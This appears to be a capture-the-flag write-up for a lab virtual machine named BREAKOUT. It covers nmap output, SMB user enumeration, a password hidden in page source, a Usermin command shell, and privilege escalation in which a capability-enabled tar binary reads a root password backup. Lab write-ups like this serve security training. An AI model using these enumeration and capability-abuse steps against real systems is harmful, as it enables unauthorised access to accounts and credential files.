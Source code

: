 # Nmap

```bash
# Nmap 7.94SVN scan initiated Sun Nov 24 11:28:15 2024 as: /usr/lib/nmap/nmap --privileged -p 80,139,445,10000,20000 -sCV -A -T4 -O -oN scans/service-scan 192.168.1.100
Nmap scan report for 192.168.1.100
Host is up (0.0012s latency).

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-server-header: MiniServ/1.981
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
MAC Address: 08:00:27:29:55:DB (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-11-24T10:28:29
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   1.15 ms 192.168.1.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 24 11:28:59 2024 -- 1 IP address (1 host up) scanned in 43.67 seconds
```


### Services

- **SMB:** Enumerate through enum4linux to get user **cyber** (`enum4linux 192.168.56.101 -a`)
- **Apache Server (80):** Here we find the cyber password encrypted in BrainFuck! language, it is hidden in the landing page source code
- **Usermin (20000):** With cyber credentials we can access and we can get RCE in **Usermin/Login/Command Shell**
- **Webmin (10000):** Not useful


### Privilege escalation

In cyber home folder we find **tar** binary, if we inspect the binary we see that it has read capabilities (**cap_dac_read_search=ep**) so we can read any file in the system by compressing it with tar and decompressing it. We found in **/var/backups** a backup for root password:

	/home/cyber/tar -cf - /var/backups/.old_pass.bak > old_pass.tar
	/home/cyber/tar -xf old_pass.tar
	
And we can read root pasword and change user with `su root`
